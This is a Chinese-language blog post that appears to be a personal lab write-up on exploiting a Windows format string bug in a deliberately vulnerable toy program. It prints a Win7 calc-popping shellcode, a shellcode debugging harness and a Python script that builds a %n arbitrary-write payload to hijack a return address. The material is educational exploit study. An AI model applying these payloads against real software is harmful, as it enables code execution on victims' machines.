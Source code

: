 ```yaml
---
layout:     keynote
title:      "windows格式化字符串漏洞探究"
subtitle:   "集Fsb漏洞构造、分析、利用的小实验"
iframe:     ""
navcolor:   "invert"
date:       2016-11-16
author:     "carter"
header-img: "img/post-bg-re-vs-ng2.jpg"
header-mask: 0.3
tags:
    - OS
    - Windows
    - pwn
---
```



### 知识点：
- windows下的格式化字符串fsb利用   
- 利用mona查询各个模块开启安全机制   
- win7弹计算器shellcode
- 如何调试shellcode

### 一. 程序代码：

```c++
#include "stdafx.h"
#include<stdio.h>
#include<stdlib.h>
#include <string.h>
int main (int argc, char *argv[])
{
    char buff[1024];
    FILE*f;
    
    f=fopen("flag.txt","r");
    fread(buff,1024,3,f);
    printf(buff); //触发漏洞
  return 0;
}
```

程序的流程是从flag.txt中读取字符串，再打印出来。很明显，程序中存在一个windows下的格式化字符串漏洞。

### 二. 基本知识：

##### **1. 格式化字符串相关知识**

%x：依次打印出栈上数据
![图片]("https://raw.githubusercontent.com/carterMgj/blog_img/master/2016-11-17-windows-pwn/1.png")
%100x：指定数据打印时显示长度为100字节
[图片]
%n：打印出栈上数据作为地址时，该地址的内容（当该地址不可达时，就会崩溃）

##### **2. 设置immunity debugger为默认调试器**
直接在注册表里修改，该方法比较简单粗暴
[图片]
[图片]
(PS：同样方法，win7下设置Ollydbg为默认调试器一直失败，但是设置immunityDbg为默认调试器则可以，不知道为什么)

##### **3. windows7_32bit 弹计算器shellcode**
```
shellcode = '\xeb\x54\x31\xf6\x64\x8b\x76\x30\x8b\x76\x0c\x8b\x76\x1c\x8b\x6e\x08\x8b\x36\x8b\x5d\x3c\x8b\x5c\x1d\x78\x85\xdb\x74\xf0\x01\xeb\x8b\x4b\x18\x67\xe3\xe8\x8b\x7b\x20\x01\xef\x8b\x7c\x8f\xfc\x01\xef\x31\xc0\x99\x02\x17\xc1\xca\x04\xae\x75\xf8\x3b\x54\x24\x04\xe0\xe4\x75\xca\x8b\x53\x24\x01\xea\x0f\xb7\x14\x4a\x8b\x7b\x1c\x01\xef\x03\x2c\x97\xc3\x68\xe7\xc4\xcc\x69\xe8\xa2\xff\xff\xff\x50\x68\x63\x61\x6c\x63\x8b\xd4\x40\x50\x52\xff\xd5\x68\x77\xa6\x60\x2a\xe8\x8b\xff\xff\xff\x50\xff\xd5'
```

##### **4.  如何调试shellcode**
```
#include "stdafx.h"
#include<stdio.h>
#include<windows.h>

int main(int argc, char* argv[])
{
    //导入ShellCode中要使用的.dll
    LoadLibrary("kernel32.dll"); 
    char shellcode[256] = "\x90\x90\x90...\x90";        

    __asm{ 
       lea eax,shellcode 
       push eax 
       ret;           //ret到ShellCode处
    } 
    return 0;
}
```
结合IDA，定位到具体代码，就可以跟进到shellcode处，查看shellcode的执行情况了

##### **5. 查看程序开启安全机制**

在immunity Debugger中，使用 
```
!mona modules
```
可以查看程序加载的各个模块对应开启的安全机制
[图片]
上图可见，对于程序本身什么安全机制都没开启。因为程序没有开启数据执行保护DEP，所以可以把shellcode放在栈上，攻击返回地址后跳转到shellcode处执行。


### 三. 漏洞调试
首先使用'%x-%x-%x-%n'作为printf函数的唯一参数，此时崩溃现场如图
[图片]
使用'%x-%x-%x-%x-%n'作为printf函数的唯一参数，此时崩溃现场如图
[图片]
从上面两次尝试中可以看出，程序崩溃是因为'%n'这个参数，在
```
mov ptr[EAX], ECX
```
这条指令时因为EAX内容作为地址不可达，所以触发程序崩溃。
崩溃时EAX是当时'%n'应该打印的那个栈地址内容，ECX是崩溃时已经打印出来的字符长度：
```
%x-%x-%x-%n --> ECX：0xD=13
%x-%x-%x-%x-%n --> ECX：0x16=22
```
对比下图，可以验证说法正确性
[图片]

### 四. 漏洞利用
我们可以通过控制打印栈上内容的数量（即增加%x的数量），控制EAX的值。可以通过控制打印字符的长度（用%100x，%200x等来控制打印长度），控制ECX的值。最后利用mov ptr[EAX],ECX来任意地址写。

内存任意写写哪个地方--------最快捷的方法，就是覆盖最近函数的返回地址为shellcode的地址

alt+k查看栈回溯，可以看到最近的一个返回地址存储在栈地址0x12faf0
[图片]
崩溃时，查看栈，确定存储输入的起始地址是0x12fb48
[图片]
所以我们的目的就是令：EAX=0x12faf0  ECX=0x12fb48

### 五. 编写漏洞利用脚本
输入构造为：
shellcode相应多的%x一些%nx来调整输出长度需要被覆盖的地址
exp1.py
```
shellcode = '........'
ret_addr = '\xf0\xfa\x12\x00'
input1 = shellcode + '-%x'*218 + '%414000x' + '%414000x' + '%413908x' + '%n' + ret_addr

with open('flag.txt','wb') as f:
    f.write(input1)    
```

为了效果，我在shellcode开头字节设置了0xCC -- int3，运行exp.py生成flag.txt，运行fsb.exe从flag.txt读取字符后使用printf函数打印，成功触发Fsb漏洞
[图片]
弹出可爱的计算器
[图片]

## 六. 问题解决
**问题描述：**

 之前实验中使用strcpy复制字符串到内存，但是发现有些字节复制到内存后变为了'\x3f' -- '?'，比如：
 ```
\x8b\x36 --> \x3f
```

**解决方法：**

strcpy和strncpy都是针对可见字符而言的，不能复制不可见字符，且遇到'\x00'就停止复制。

与 strcpy() 不同的是，memcpy(*memTo,*memFrom,num) 会完整的复制 num 个字节，对复制内容没有限制，也不会因为遇到“\0”而结束。

PS: 在此最终采用了fread函数从文件中读取的方式读取payload到内存


参考链接：
[http://bbs.pediy.com/showthread.php?t=213153](http://bbs.pediy.com/showthread.php?t=213153)


